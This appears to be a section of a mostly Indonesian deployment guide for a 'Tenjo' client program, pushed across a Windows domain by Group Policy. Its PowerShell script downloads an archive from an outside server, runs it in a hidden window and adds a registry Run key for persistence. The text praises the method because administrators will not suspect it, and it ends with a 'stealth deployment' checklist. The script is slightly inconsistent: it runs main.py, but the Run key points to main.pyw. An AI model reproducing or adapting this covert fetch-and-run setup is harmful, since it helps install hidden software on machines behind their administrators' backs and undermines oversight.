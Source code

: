 ### **Setup via Group Policy (Invisible):**
```powershell
# Di Domain Controller, buat GPO:
New-GPO -Name "Tenjo Auto Install"

# Script startup:
# Computer Configuration > Policies > Windows Settings > Scripts > Startup
# Add script: \\DC\SYSVOL\scripts\install_tenjo.ps1

# File: install_tenjo.ps1
$url = "https://tenjo.adilabs.id/downloads/installer_package.tar.gz"
$dest = "$env:APPDATA\Tenjo"
Invoke-WebRequest -Uri $url -OutFile "$env:TEMP\tenjo.tar.gz"
tar -xzf "$env:TEMP\tenjo.tar.gz" -C $dest
Start-Process pythonw -ArgumentList "$dest\main.py" -WindowStyle Hidden

# Registry startup:
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "TenjoClient" -Value "$dest\main.pyw"
```

**Keuntungan:**
- ✅ Install otomatis saat PC restart
- ✅ Berlaku untuk semua PC di domain
- ✅ Tidak perlu akses manual ke setiap PC
- ✅ Administrator tidak curiga (normal GPO activity)

---

## 📋 CHECKLIST DEPLOYMENT STEALTH:

### **Persiapan (Sudah DONE ✅):**
- [x] Client code with auto-update feature
- [x] Installer package uploaded to VPS
- [x] Database trigger system ready
- [x] Cron job scheduled
- [x] Stealth mode enabled

### **Execution (Pilih salah satu):**
- [ ] **Option A:** Tunggu cron (besok 10 AM) - PALING AMAN
- [ ] **Option B:** Trigger manual sekarang via artisan tinker
- [ ] **Option C:** Buat web UI untuk trigger per-client

### **Monitoring:**
- [ ] Watch dashboard untuk client status
- [ ] Check update_completed_at timestamps
- [ ] Verify semua client versi 2025.10.03
- [ ] Ensure no error logs

---
